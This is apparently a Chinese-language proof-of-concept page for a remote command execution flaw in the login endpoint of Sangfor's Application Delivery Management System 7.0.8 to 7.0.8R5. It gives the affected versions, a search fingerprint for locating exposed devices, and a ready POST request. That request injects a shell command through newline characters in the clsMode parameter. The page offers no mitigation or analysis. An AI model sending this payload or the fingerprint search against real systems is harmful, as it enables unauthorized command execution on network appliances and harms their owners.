


# 深信服 应用交付管理系统 login 远程命令执行漏洞

## 影响版本

<a-checkbox checked>深信服 应用交付管理系统 7.0.8-7.0.8R5</a-checkbox></br>

## 资产搜索

<a-checkbox checked>fid="iaytNA57019/kADk8Nev7g=="</a-checkbox></br>


## POC

```plain
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```
